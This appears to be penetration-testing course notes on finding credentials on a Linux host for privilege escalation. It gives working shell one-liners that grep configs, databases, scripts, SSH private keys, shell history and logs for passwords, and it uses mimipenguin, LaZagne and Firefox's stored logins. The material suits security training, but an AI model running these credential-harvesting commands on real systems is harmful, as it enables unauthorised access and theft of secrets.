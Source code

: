 We can search for passwords or even whole credentials that we can use escalate our privileges. There are several sources that can provide us with credentials that we put in four categories. These include, but are not limited to:

|**`Files`**|**`History`**|**`Memory`**|**`Key-Rings`**|
|---|---|---|---|
|Configs|Logs|Cache|Browser stored credentials|
|Databases|Command-line History|In-memory Processing||
|Notes||||
|Scripts||||
|Source codes||||
|Cronjobs||||
|SSH Keys||
### Files
##### Configuration Files
Searching for configuration files (`.conf`,`.config`,`.cnf`)
```bash
for l in $(echo ".conf .config .cnf");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "lib\|fonts\|share\|core" ;done
```
Search for credentials in file type (configuration files)
```bash
for i in $(find / -name *.config 2>/dev/null | grep -v "doc\|lib");do echo -e "\nFile: " $i; grep "user\|password\|pass" --color=auto $i 2>/dev/null | grep -v "\#";done
```
##### Databases
```bash
for l in $(echo ".sql .db .*db .db*");do echo -e "\nDB File extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share\|man";done
```

```bash
for i in $(find / -name *.db 2>/dev/null | grep -v "doc\|lib");do echo -e "\nFile: " $i; grep "user\|password\|pass" --color=auto $i 2>/dev/null | grep -v "\#";done
```
##### Notes
```bash
find /home/* -type f -name "*.txt" -o ! -name "*.*"
```
##### Scripts
```shell
for l in $(echo ".py .pyc .pl .go .jar .c .sh");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share";done
```
##### Cronjobs
```bash
cat /etc/crontab 
ls -la /etc/cron.*/
```
##### SSH Keys
```bash
grep -rnw "PRIVATE KEY" /home/* 2>/dev/null | grep ":1"
grep -rnw "ssh-rsa" /home/* 2>/dev/null | grep ":1"
```
### Logs
##### History
```bash
tail -n5 /home/*/.bash*
```

The entirety of log files can be divided into four categories:

| **Application Logs** | **Event Logs** | **Service Logs** | **System Logs** |
| -------------------- | -------------- | ---------------- | --------------- |
Many different logs exist on the system. These can vary depending on the applications installed, but here are some of the most important ones:

|**Log File**|**Description**|
|---|---|
|`/var/log/messages`|Generic system activity logs.|
|`/var/log/syslog`|Generic system activity logs.|
|`/var/log/auth.log`|(Debian) All authentication related logs.|
|`/var/log/secure`|(RedHat/CentOS) All authentication related logs.|
|`/var/log/boot.log`|Booting information.|
|`/var/log/dmesg`|Hardware and drivers related information and logs.|
|`/var/log/kern.log`|Kernel related warnings, errors and logs.|
|`/var/log/faillog`|Failed login attempts.|
|`/var/log/cron`|Information related to cron jobs.|
|`/var/log/mail.log`|All mail server related logs.|
|`/var/log/httpd`|All Apache related logs.|
|`/var/log/mysqld.log`|All MySQL server related logs.|
Analysis in logs
```bash
for i in $(ls /var/log/* 2>/dev/null);do GREP=$(grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null); if [[ $GREP ]];then echo -e "\n#### Log file: " $i; grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null;fi;done
```
### Memory and Cache
Many applications and processes work with credentials needed for authentication and store them either in memory or in files so that they can be reused.
#### Mimipenguin
In order to retrieve this type of information from Linux distributions, there is a tool called [mimipenguin](https://github.com/huntergregal/mimipenguin) that makes the whole process easier. However, this tool requires administrator/root permissions.
```bash
sudo python3 mimipenguin.py
sudo python3 mimipenguin.sh
```
#### Lazagne
```bash
sudo python2.7 laZagne.py all
```
#### Browsers
Firefox stored credentials
```shell
ls -l .mozilla/firefox/ | grep default 
cat .mozilla/firefox/1bplpd86.default-release/logins.json | jq .
```
[Firefox Decrypt](https://github.com/unode/firefox_decrypt) can be used for decrypting these credentials